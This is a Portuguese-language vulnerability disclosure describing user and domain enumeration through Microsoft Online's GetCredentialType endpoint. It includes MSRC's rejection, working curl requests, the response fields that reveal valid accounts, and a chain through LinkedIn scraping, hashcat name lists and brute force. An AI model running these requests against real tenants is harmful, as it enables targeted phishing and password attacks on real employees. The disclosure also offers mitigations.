





# Divulgação de Vulnerabilidade: Enumeração de Usuários no Serviço de Autenticação do Microsoft Online
Este documento detalha a descoberta de uma vulnerabilidade no serviço de autenticação do [Microsoft Online](https://login.microsoftonline.com/),
o qual permite a enumeração de usuários.

## Sumário
A vulnerabilidade permite que um atacante remoto descubra nomes válidos de usuários em aplicações que utilizam o serviço
de autenticação do **Microsoft Online**, podendo ser explorado para realização de ataques direcionados.

### Relato
A descoberta foi devidamente relatada ao [Microsoft Security Response Center (MSRC)](https://msrc.microsoft.com/), via 
[Microsoft Bug Bounty Program](https://www.microsoft.com/en-us/msrc/bounty), seguindo as diretrizes de divulgação responsável 
para garantir a mitigação adequada e a proteção de possíveis usuários afetados. Dado que o evento não foi considerado uma 
vulnerabilidade, torno público o cenário com o intuito de alinhar entendimento sobre quais contextos a vulnerabilidade aqui 
citada, deve ser considerada um risco.

- **Identificador**: microsoft_bounty_1¹ (_external tracking ID_)
- **Categoria**: Enumeração de Usuários
- **Gravidade**: 8.8/Alta
- **CVSS**: [CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:L/VA:N/SC:N/SI:N/SA:N](https://www.first.org/cvss/calculator/4.0#CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:L/VA:N/SC:N/SI:N/SA:N)

> _¹ dado que o item não foi considerado uma ameaça, nenhum código CVE foi atribuído._

### Linha do Tempo
- **Data da descoberta**: 26 de Abril de 2024
- **Data da notificação ao MSRC**: 27 de Abril de 2024
- **Data da análise pelo MSRC**: 29 de Junho de 2024
- **Data da conclusão pelo MSRC¹**: 12 de Junho de 2024

### Resposta Obtida
```txt
MSRC Email communication 12 de jun. de 2024, 22:31
Subject: RE: MSRC Case microsoft_bounty_1

Hello Raphael,

Thank you for submitting this issue to Microsoft. We appreciate the time taken to submit this report. Upon investigation, we have determined that this is not considered a security vulnerability for servicing. 

Please refer https://learn.microsoft.com/en-us/entra/fundamentals/users-default-permissions#restrict-member-users-default-permissions

As such this case is now closed.
Thank you for working with us and we look forward to more reports from you in the future!

Warm regards,
MSRC
```

O [link referido](https://learn.microsoft.com/en-us/entra/fundamentals/users-default-permissions#restrict-member-users-default-permissions) fala
sobre permissões de acesso entre usuários autenticados e visitantes, com o intuito de restrição. Contudo, não se aplica ao 
que será demonstrado a seguir, uma vez que é possível explorar a vulnerabilidade livremente.

## Detalhamento
A enumeração de usuários é uma vulnerabilidade de segurança que permite a um atacante descobrir se determinados nomes de usuário
estão presentes em um sistema. Esta vulnerabilidade ocorre quando um aplicativo revela, através de mensagens de erro, respostas
diferentes para usuários existentes e não existentes, durante o processo de autenticação, registro ou recuperação de senha.

### Vetor de Ataque
A vulnerabilidade foi identificada através de solicitações para o _endpoint_ de autenticação do Microsoft Online, cujo
comportamento das respostas pode revelar a existência de usuários.

### Impacto
Esta informação, aparentemente inofensiva, pode afetar de forma significativa a segurança da organização, já que a exposição 
de credenciais de acesso contribuem para o aumento e eficácia de ataques subsequentes, como _**phishing**_, **engenharia social** e
**força bruta**.

#### Phishing
Ataque que tenta roubar seu dinheiro ou a sua identidade fazendo com que você revele informações pessoais, tais como números 
de cartão de crédito, informações bancárias ou senhas em sites que fingem ser legítimos. Criminosos cibernéticos normalmente 
fingem ser empresas confiáveis, amigos ou pessoas conhecidas em uma mensagem de email falsa, que contém um link para 
um site de _"phishing"_ (pescar). (Fonte: [Suporte Microsoft](https://support.microsoft.com/pt-br/windows/proteja-se-contra-phishing-0c7ea947-ba98-3bd9-7184-430e1f860a44)).

Um subconjunto dessa prática é o _spear phishing_ (pescar na lança), que trata da especialização do ataque, onde os invasores realizam pesquisas 
extensas sobre os alvos pretendidos. Essa alta personalização visa não só indivíduos, como empresas específicas, ocasionando 
fraudes financeiras, manipulação de preços de ações, espionagem ou roubo de dados confidenciais para revenda. Podem ser 
projetados também para infectar dispositivos com _malware_. (Fonte: [Kaspersky Resource Center](https://www.kaspersky.com.br/resource-center/definitions/spear-phishing))

#### Engenharia Social
Os ataques de engenharia social manipulam as emoções e os instintos das pessoas de maneiras que comprovadamente a levam a compartilhar
informações que não deveriam compartilhar, baixar software que não deveriam baixar, visitar sites que não deveriam visitar, 
enviar dinheiro para criminosos ou cometer outros erros que comprometam sua segurança pessoal ou organizacional. (Fonte: [IBM Think](https://www.ibm.com/br-pt/topics/social-engineering)).

Além dos já citados _phishing_ e _spear phishing_, temos o _baiting_ (iscar pela curiosidade), _tailgating_ (carona no dispositivo desbloqueado),
_pretexting_ (o falso samaritano digital), _Quid pro quo_ (serviços desejáveis, porém falsos, em troca da informação), _scareware_ (manipular pelo medo)
e _watering hole_ (um serviço real é infectado).

#### Força bruta
Um ataque de força bruta usa o método de tentativa e erro para adivinhar informações de login, chaves de criptografia ou 
encontrar uma página da Web oculta. Invasores trabalham com todas as combinações possíveis na esperança de acertar. (Fonte: [Kaspersky Resource Center](https://www.kaspersky.com.br/resource-center/definitions/brute-force-attac))

Um subtipo dessa forma de ataque é conhecido como _Password Spraying_ (pulverização de senhas), que consiste na tentativa
exaustiva de usar a mesma senha em diversas contas antes de tentar outra. Ataques de pulverização de senhas costumam ser 
efetivos, porque muitos usuários, além de usarem as mesmas senhas em diferentes serviços, em geral são de simples memorização
e fáceis de adivinhar. [Fonte: [Kaspersky Resource Center](https://www.kaspersky.com.br/resource-center/definitions/what-is-password-spraying)]

Vale destaque aqui para as senhas mais curiosas, utilizadas no Brasil, no ano de 2023:

| Posição | Senha     | Ocorrências |
|---------|-----------|-------------|
| 1º      | admin     | 204.846     |
| 2º      | 123456    | 137.551     |
| 3º      | 12345678  | 46.666      |
| 4º      | 102030    | 28.034      |
| 5º      | 123456789 | 24.834      |
| 7º      | gvt12345  | 10.684      |
| 9º      | password  | 8687        |
| 11º     | 123mudar  | 8202        |
| 15º     | fera@123  | 6364        |
| 20º     | Senha     | 4762        |

Fonte: [Nordpass](https://nordpass.com/es/most-common-passwords-list/)

### Relevância
Políticas robustas de controle de acesso, como multifator ou _zero trust_, limitam o acesso dos cibercriminosos, mas a falta de 
respostas uniformes durante este acesso, abre caminho para a vulnerabilidade de enumeração de usuários, cujo risco é reconhecido
por várias organizações de segurança.

- **OWASP (Open Web Application Security Project)**: frequentemente mencionada no [OWASP Top 10](https://owasp.org/www-project-top-ten/) e citado nas diretrizes do [Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html#authentication-responses),
está presente também nas categorias:
  - [A1:2021 - Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/);
  - [A7:2021 - Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/);
  - [A9:2017 - Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/2017/A9_2017-Using_Components_with_Known_Vulnerabilities).
<br><br>

- **NIST (National Institute of Standards and Technology)**: a prática é abordada pelo [NIST SP 800-63B: Digital Identity Guidelines](https://pages.nist.gov/800-63-3/sp800-63b.html), 
tópico 8: _"Threats and Security Considerations"_.


- **ISO (International Organization for Standardization)**: embora não mencione especificamente a enumeração de usuários, 
as diretrizes de segurança da [ISO/IEC 27001](https://www.iso.org/standard/27001) e [ISO/IEC 27034](https://www.iso.org/standard/44378.html) ressaltam, respectivamente, a importância de proteger 
informações de autenticação e adoção de práticas seguras de desenvolvimento.


- **SEI CERT (Software Engineering Institute CERT)**: o SEI CERT Coding Standards fornece [10 práticas de codificação segura](https://wiki.sei.cmu.edu/confluence/display/seccode/Top+10+Secure+Coding+Practices) 
para evitar diversas vulnerabilidades. Dentre elas, podemos destacar o item 8: _"Practice defense in depth"_, cuja orientação
é assegurar mais de uma camada de proteção, combinando técnicas para reduzir as lacunas de segurança.


- **CVE (Common Vulnerabilities and Exposures)**: além de sua definição base [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html),
muitos serviços e softwares conhecidos, como [WordPress](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5487), [OpenSSH](https://nvd.nist.gov/vuln/detail/cve-2016-6210) e [GitLab](https://nvd.nist.gov/vuln/detail/cve-2021-4191)
já marcaram presença. Múltiplas entradas de enumeração de usuários são [regularmente catalogadas](https://www.opencve.io/cve?cvss=&search=user+enumeration) no banco de dados da CVE.


- **NVD (National Vulnerability Database)**: enriquece uma CVE e expande detalhes com referências técnicas, análise de impacto, 
orientações de remediação e classificações de risco (CVSS).

## Método de Exploração
No portal [Azure AD (Microsoft Entra ID)](https://learn.microsoft.com/en-us/entra/identity/authentication/overview-authentication), registre uma aplicação através do [App Registration](https://learn.microsoft.com/en-us/entra/identity-platform/quickstart-register-app?tabs=certificate#register-an-application)
usando como método o [Access Token](https://learn.microsoft.com/en-us/entra/identity-platform/access-tokens). Conceda as permissões
básicas `email` e `User.Read` por meio do [Microsoft Graph](https://developer.microsoft.com/pt-BR/graph/graph-explorer).

A partir desse registro, você obterá o `appId`, parâmetro essencial para a construção da **url** de autenticação que irá identificá-lo
no serviço, conforme a estrutura abaixo:

```txt
https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize
```

Adicional a isso, incluiremos os parâmetros `clientId` e `code`, obtidos durante o fluxo do _backend_:

```txt
?client_id={clientId}&response_type=code&code_challenge={code}
```

Por fim, os parâmetros fixos:

```txt
&code_challenge_method=S256
&redirect_uri=https://minha-aplicacao/successo
&scope=https://graph.microsoft.com/email
&prompt=select_account
&sso_reload=true
```

No conjunto, a **url** final será parecido com:

```txt
https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize?client_id={clientId}&response_type=code&code_challenge={code}&code_challenge_method=S256&redirect_uri=https://my.app/success&scope=https://graph.microsoft.com/email&prompt=select_account&sso_reload=true
```

### Metodologia Visual
A **url** irá te levar até o serviço de autenticação personalizado da aplicação (appId), informando o inquilino (`clientId`) 
solicitante (tenant), exigindo então as credenciais de acesso.

| Tela inicial                                                                                                     | Informo dados inválidos                                                                                          | Serviço confirma                                                                                                 | Domínio correto, a mensagem muda                                                                                 | Usuário correto, é solicitado a senha                                                                            |
|------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------|
|  |  |  |  |  |

A partir de uma conferência simples das mensagens de erro, sou capaz de enumerar tanto usuários quanto domínios.

### Metodologia Programática
Inspecionando o código-fonte do serviço https://login.microsoftonline.com, e analisando os pacotes enviados pela rede, 
encontramos o _endpoint_ `GetCredentialType`. Ao extrair o corpo da requisição, temos isso:

```
curl --location 'https://login.microsoftonline.com/common/GetCredentialType?mkt=pt-BR' \
--header 'accept: application/json' \
--header 'accept-language: pt-BR,pt;q=0.7' \
--header 'canary: {canaryHash}' \
--header 'client-request-id: {requestGuid}' \
--header 'content-type: application/json; charset=UTF-8' \
--header 'cookie: brcap=0; ESTSSSOTILES=1; AADSSOTILES=1; x-ms-gateway-slice=estsfd; stsservicecookie=estsfd; AADSSO=NA|NoExtension; ESTSAUTHLIGHT=+58498593-a7a2-422b-84bd-ef0fb1c85b0d; CCState={cstateHash}' \
--header 'hpgact: 1800' \
--header 'hpgid: 1104' \
--header 'hpgrequestid: {hpgRequestGuid}' \
--header 'origin: https://login.microsoftonline.com' \
--header 'priority: u=1, i' \
--header 'referer: https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize?client_id={clientId}&response_type=code&code_challenge={code}&code_challenge_method=S256&redirect_uri=https://minha-aplicacao/successo&scope=https://graph.microsoft.com/email&prompt=select_account&sso_reload=true
--header 'sec-ch-ua: "Brave";v="125", "Chromium";v="125", "Not.A/Brand";v="24"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "Windows"' \
--header 'sec-fetch-dest: empty' \
--header 'sec-fetch-mode: cors' \
--header 'sec-fetch-site: same-origin' \
--header 'sec-gpc: 1' \
--header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
--data-raw '{"username":"abacate@avocado.com.br","isOtherIdpSupported":true,"checkPhones":false,"isRemoteNGCSupported":true,"isCookieBannerShown":false,"isFidoSupported":true,"originalRequest":"{originalRequestHash}","country":"BR","forceotclogin":false,"isExternalFederationDisallowed":false,"isRemoteConnectSupported":false,"federationFlags":0,"isSignup":false,"flowToken":"{flowToken}","isAccessPassSupported":true}'
```
Embora o conjunto de cabeçalhos e parâmetros sejam elevados, alguns deles sugerem ter algum tratamento seguro quanto ao envio, 
como é o caso do `requestGuid`, `cstateHash`, `hpgRequestGuid`, `originalRequestHash` ou `flowToken`. Contudo, nenhum deles é 
de fato necessário na requisição. 

Uma vez que não há verificação dessas partes, nem consistência do objeto quanto a sua manipulação, podemos enxugá-lo:

```txt
curl --location 'https://login.microsoftonline.com/common/GetCredentialType?mkt=pt-BR' \
--header 'Content-Type: application/json' \
--header 'Cookie: fpc=Avu1jfhsb2hEhMRueZ1yZ9Q; stsservicecookie=estsfd; x-ms-gateway-slice=estsfd' \
--data-raw '{  
    "username": "abacate@avocado.com.br"
}'
```

Independente de qual formato você use, ambos irão retornar a seguinte estrutura:

```json
{
    "Username": "",
    "Display": "",
    "IfExistsResult": 0,
    "IsUnmanaged": false,
    "ThrottleStatus": 0,
    "Credentials": {},
    "DfpProperties": {},
    "EstsProperties": {},
    "IsSignupDisallowed": false,
    "apiCanary": ""
}
```

Mais uma vez, não precisamos nos concentrar no excesso, portanto, vamos mirar apenas nos campos `IfExistisResult` (_garante a existência_) e 
`ThrottleStatus` (_algum tipo de erro_). Automatizando essas requisições, encontramos o seguinte padrão:

- Se **usuário** e **domínio** <u>não</u> existirem, `IfExistisResult` e `ThrottleStatus` serão `1`;
- Se **usuário** <u>não</u> existir, mas o **domínio** existir, `IfExistisResult` será `1` e `ThrottleStatus` será `0`;
- Se **usuário** e **domínio** existem, `IfExistisResult` e `ThrottleStatus` serão `0`;

Com isso, verificamos pela segunda vez que é possível identificar usuários através do serviço.

_Obs: há outras mudanças no `json` que colaboram com a identificação, mas optei pelos itens acima por brevidade._

### Metodologia Expandida
Considerando que o serviço [Azure DevOps](https://azure.microsoft.com/pt-br/products/devops) também usa o Microsoft Online, e sua **url** é acessível através de `https://dev.azure.com/{nomeDaOrganizacao}`, 
podemos fazer um _web scrapping_ numa rede social, como o LinkedIn, e obter o nome principal de cada empresa. 

Com isso, testamos até obter um **HttpStatus** `200`:

```
https://dev.azure.com/mcdonalds
https://dev.azure.com/samsung
https://dev.azure.com/ibm
https://dev.azure.com/suaempresa
...
https://dev.azure.com/microsoft
```
Após encontrar o alvo, basta aplicar qualquer uma das metodologias descritas:

| Usuário não existe no domínio                                                                                    | Usuário existe e me é solicitado a senha                                                                         |
|------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------|
|  |  |

Além de nomes óbvios como o demonstrado acima, podemos fazer outro _web scrapping_ no LinkedIn, porém focado nos funcionários da 
empresa alvo. A partir dos nomes e sobrenomes, é possível gerar todas as combinações (_incluindo hífen, underscore ou ponto_) 
através do **hashcat**. Com a massa de dados pronta, basta deixar a força bruta agir através do <software>. 

Aquele usuário que não tiver um 2º fator de segurança, fatalmente estará sujeito a ter suas credenciais quebradas.

## Mitigação e Recomendações
Para mitigar a vulnerabilidade de enumeração de usuários, é essencial implementar medidas de segurança robustas que dificultem 
a exploração dessa falha. A seguir, são apresentadas recomendações baseadas nas melhores práticas de segurança e diretrizes 
de órgãos renomados como OWASP, NIST, e CERT:

- **Uniformização das mensagens de erro**: assegure-se de que todas as mensagens de erro durante o processo de autenticação 
sejam uniformes, não fornecendo pistas sobre a validade dos nomes de usuários. O mesmo vale para tempo de resposta da requisição.


- **Limitação de tentativas de login**: implemente uma política de limitação de tentativas de login. Após um número predefinido 
de tentativas falhas, bloqueie temporariamente a conta ou exija um tempo de espera.


- **Monitoramento e log de acessos**: configure o monitoramento e logging de todas as tentativas de login. Analise esses logs 
regularmente para identificar padrões de ataques de enumeração.


- **Utilização de Captchas**: adicione CAPTCHAs no processo de login para dificultar a automação de ataques de enumeração.


- **Verificações contra adulteração**: avaliações robustas na requisição devem garantir que o evento não possa ser explorado.

## Referências
- **[ISO/IEC 27034-1:2011 - Application security](https://www.iso.org/standard/72311.html)**;

- **[CERT Guide to Coordinated Vulnerability Disclosure](https://insights.sei.cmu.edu/documents/1945/2017_003_001_503340.pdf)**;

- **[NVD (National Vulnerability Database)](https://nvd.nist.gov/vuln)**;

- **[CVSS (Common Vulnerability Scoring System) Calculator](https://www.first.org/cvss/calculator/4.0)**;

- **[OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)**;

- **[NIST Special Publication 800-63B](https://pages.nist.gov/800-63-3/sp800-63b.html)**;

- **[CERT Guide to Coordinated Vulnerability Disclosure](https://insights.sei.cmu.edu/documents/1945/2017_003_001_503340.pdf)**;

- **[NVD Vulnerability Database](https://nvd.nist.gov/)**.

## Conclusão
A descoberta desta vulnerabilidade no serviço de autenticação do Microsoft Online ressalta a importância contínua de revisões 
de segurança e conformidade com padrões internacionais. No entanto, ao não considerar uma falha, acaba levantando a questão
sobre quando a vulnerabilidade é tratada como um risco ou não.

Empresas que aplicam testes de penetração, como [Tracker](https://trackerconsultoria.com.br/), [Desec](https://desecsecurity.com/),
[HackerSec](https://hackersec.com), [Ravel](https://ravel.com.br/servico-de-pentest-teste-de-intrusao), [Kaspersky](https://www.kaspersky.com.br/enterprise-security/penetration-testing),
[Tempest](https://www.tempest.com.br/), [e-Security](https://esecurity.com.br/pentest/), [Vantico](https://vantico.com.br/) ou [Tivit](https://tivit.com/solucoes/cybersecurity/), 
vão sempre se guiar pelos padrões de mercado, logo, se faço uso do Microsoft Online, e ele permite enumerar usuários, não
deveria ser considerado uma vulnerabilidade, da mesma forma que seria apontado, caso eu faça meu próprio sistema de login?
